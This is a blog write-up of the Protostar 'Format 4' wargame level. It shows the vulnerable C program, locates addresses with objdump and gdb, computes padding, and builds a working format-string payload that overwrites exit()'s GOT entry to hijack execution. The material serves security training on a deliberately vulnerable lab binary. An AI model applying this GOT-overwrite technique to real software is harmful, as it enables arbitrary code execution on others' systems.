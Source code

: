 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 4"
date: 2012-02-02T05:15:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Next up is the last challenge in the Format String series, [Format 4](http://exploit-exercises.com/protostar/format4). 

It starts out with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
 printf("code execution redirected! you win\n");
 _exit(1);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printf(buffer);

 exit(1); 
}

int main(int argc, char **argv)
{
 vuln();
}
```

What initially caught my eye was the fact that there was a call to "exit()" as well as "_exit()".  This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on "exit()".  When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions.  The first time it runs that function, it will cache the memory address in the GOT, so that it doesn't have to ask libc, or the corresponding library each time.  If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.  In this case, our victim is "exit()". 

For this exploit to work, we will need a few things: 

* Memory address of "exit()" in the GOT, which we want to overwrite
* Memory address of "hello()", which will be the data we overwrite the GOT with
* Stack offset for the format string
* The amount of characters to buffer for each byte-pair

Getting the memory address of the "exit()" method in the GOT is fairly easy:

```
user@protostar:/opt/protostar/bin$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Getting the memory address of "hello()" is quite similar: 

```
user@protostar:/opt/protostar/bin$ objdump -t format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

To get the stack offset of the format string, it's quite simple.  We've done it in prior challenges.  Let's just spam "%x":   

```
user@protostar:/opt/protostar/bin$ echo AAAAAAAA`perl -e 'print "%x."x15'` | ./format4
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

From this, we can now see "41414141" in the 4th stack variable, so our offset is 4. 

Using that offset of 4, we can now generate a format string using Direct Parameter Access, which I've only slightly mentioned in previous posts. I chose to dump the string to a file, because it made it really easy to use with gdb. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /home/user/format4_dpa
```

Next, if we run it in gdb, we can see how many characters are being written to "printf" initially, and adjust our buffering to compensate.  Start up the gdb debugger, and disassemble the "vuln" function.  We do this, so we can set a breakpoint right before "exit()" gets called. 

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) b *vuln+61
Breakpoint 1 at 0x804850f: file format4/format4.c, line 22.
```

After the breakpoint has been set, go ahead and run the program, piping in the formatstring from the file we created earlier: 

```
(gdb) run < /home/user/format4_dpa
Starting program: /opt/protostar/bin/format4 < /home/user/format4_dpa

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22      format4/format4.c: No such file or directory.
        in format4/format4.c
```

What we need to do, is examine the address of the GOT space for the "exit()" method, and now see what was set. 

```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```

Good, so far we know: <ul><li>GOT address to overwrite: 0x8049724</li><li>Value to overwrite it with: 0x080484b4</li></ul>
We can use this data to now calculate all of the individual buffer sizes needed to get the right number of characters output by "printf".  This little trick was learned from reading [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />, which I highly recommend.  Without this book, I would have been stuck on these format string levels for a lot longer than I was. I just needed a little bump, and it gave it to me. 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0xb4 - 0x00000010
$1 = 164
(gdb) p 0x84 - 0xb4
$2 = -48
(gdb) p 0x184 - 0xb4
$3 = 208
(gdb) p 0x04 - 0x84
$4 = -128
(gdb) p 0x104 - 0x84
$5 = 128
(gdb) p 0x08 - 0x04
$6 = 4
(gdb) p 0x108 - 0x04
$7 = 260
```

To explain this, you take the address you want to overwrite with (0x080484b4 in our case) and split it up into the byte pairs in little endian order (b4, 84, 08, 08).  Starting with the first one (b4), you subtract the base number we saw get written before (0x00000010), and that will give us the first buffer length of 164.  For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4).  In this case, we went negative, so we add a "1" in the most significant digit of the first number, making ours "184".  We then subtract again, and get 208.  You do this for all 4 pairs, and you get your offsets of 164, 208, 128, 260. 

Now that we have our buffer sizes, let's construct the format string with them: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' > /home/user/format4_dpa
```

Lastly, we run the format4 program with the format4_dpa file as the input: 

```
user@protostar:/opt/protostar/bin$ ./format4 < /home/user/format4_dpa           $%&'                                                              

                                                                                                   200                                            

                                                                                                                                                  

          b7fd8420                                                                                                                        

bffff624                                                                                                                                          

                                                                                                                   8049724code execution 

redirected! you win
```

And that's a win! 

I learned a lot of things in this section of the Protostar challenge.  I had almost no experience with format string exploitation, but now I'm feeling pretty comfortable with them.  We'll have to see about the [Final 1](http://exploit-exercises.com/protostar/final1) level.
